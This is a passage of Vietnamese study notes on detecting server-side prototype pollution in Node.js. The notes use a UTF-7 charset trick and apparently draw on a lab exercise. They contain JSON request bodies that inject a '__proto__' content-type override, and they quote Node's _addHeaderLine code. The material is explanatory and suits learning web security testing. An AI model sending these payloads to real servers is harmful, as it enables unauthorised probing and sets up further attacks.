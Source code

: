 Hàm **getCharset()** check xem header `Content-Type` có **charset** ko 
Nếu ko có, hàm sẽ trả về **empty string**
Quan trọng: vì giá trị có thể không được set trực tiếp, nên attacker có thể kiểm soát `charset` qua **prototype pollution**

Nếu mình tìm được **object mà các thuộc tính của nó xuất hiện trong response**, mình có thể dùng để **dò prototype pollution**

Ví dụ: **UTF-7 encoding** kết hợp **JSON response** để test và quan sát sự thay đổi

1. Thêm thuộc tính `UTF-7` encoded string vào thuộc tính mà nó phản chiếu trong response. Ví dụ, foo trong UTF-7 là `+AGYAbwBv-`

```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"+AGYAbwBv-"
}
```

2. Gửi request. Server sẽ ko dùng UTF-7 encoding theo mặc định, string sẽ xuất hiện trong response mà nó được encoded form. 
3. Thử pollute prototype với thuộc tính `content-type` mà chỉ định các ký tự UTF-7:

```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"default",
    "__proto__":{
        "content-type": "application/json; charset=utf-7"
    }
}
```
4. Repest cho request đầu tiên. Nếu thành công, chuỗi UTF-7 sẽ được decode trong response: 
```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"foo"
}
```

Do một lỗi trong module `_http_incoming` của Node, kỹ thuật này vẫn hoạt động ngay cả khi **request thực sự có header** `Content-Type` kèm **charset riêng**

Để tránh ghi đè các thuộc tính khi request có header trùng, hàm `_addHeaderLine()` sẽ kiểm tra xem object đã có thuộc tính cùng key chưa trước khi chuyển giá trị vào object **IncomingMessage**

```javascript
IncomingMessage.prototype._addHeaderLine = _addHeaderLine; 
function _addHeaderLine(field, value, des) {
    //..
} else if (dest[field] === undefined) {
    // Drop duplicates
    dest[field] = value;
}
``` 
